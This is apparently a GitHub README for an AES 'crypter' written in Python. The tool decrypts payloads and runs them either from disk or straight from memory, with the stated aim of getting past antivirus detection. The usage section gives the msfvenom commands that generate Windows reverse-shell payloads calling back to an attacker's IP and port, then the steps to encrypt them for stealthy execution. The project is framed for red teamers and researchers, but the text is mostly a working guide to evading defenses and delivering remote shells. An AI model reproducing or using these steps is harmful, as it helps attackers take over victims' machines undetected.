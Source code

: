 # 🔐 AES Crypter - Scantime & Runtime

This is a simple AES-based crypter project with two modes:

- **Scantime Crypter**: decrypts and drops an encrypted `.exe` to disk, then runs it.
- **Runtime Crypter**: decrypts and executes raw shellcode directly in memory (no file drop).

Both versions are written in Python and support custom payloads.

---

## 💡 Why use it?

Crypters are useful for obfuscating or encrypting payloads to bypass antivirus detection.  
This tool is ideal for red teamers, penetration testers, or researchers who want to test AV evasion techniques and execute payloads with higher stealth — especially in restricted environments.

<p align="center">
  <img src="demo.gif" alt="Demo">
</p>

---

## 🚀 Usage

### 1. Install the dependencies

- `pip install pycryptodome`

### 2. Generate your payload

- For runtime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o payload.bin`

- For scantime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o payload.exe`

### 3. Encrypt your payload

- `python.exe scantime/runtime.py payload.exe/.bin`

